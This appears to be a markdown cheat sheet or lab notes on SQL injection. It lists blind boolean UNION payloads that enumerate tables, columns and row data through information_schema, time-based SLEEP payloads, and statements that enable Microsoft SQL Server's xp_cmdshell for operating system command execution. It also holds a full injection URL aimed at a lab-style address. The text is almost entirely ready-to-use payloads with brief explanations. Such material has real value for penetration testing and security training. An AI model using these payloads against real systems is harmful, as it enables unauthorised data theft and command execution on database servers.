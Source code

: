 ```
' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = '[[DATABASE NAME]]' and table_name like 'a%';--
```
enumerates table name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%';--
```
enumerates column name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'	
```
Again you'll need to cycle through letters, numbers and characters until you find a match. 
>As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name,

```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]] like 'a%
```
cycles through valid column name entries
```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]]='[[VALID_ENTRY]]' and [[OTHER_COLUMN_NAME]] like 'a%
```
cycles through row entry data

### Time Based Return

```
' UNION SELECT SLEEP(5);--
```
Same as Boolean Return except when the SLEEP(5) function is hit - the return is equal to TRUE
```
' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
will sleep if the database name starts with the letter "u"

## xp_cmdshell

**xp_cmdshell** is a system-extended stored procedure in **Microsoft SQL Server** that enables the execution of operating system commands and programs from within SQL Server.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

~~~
http://10.10.39.50/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
~~~
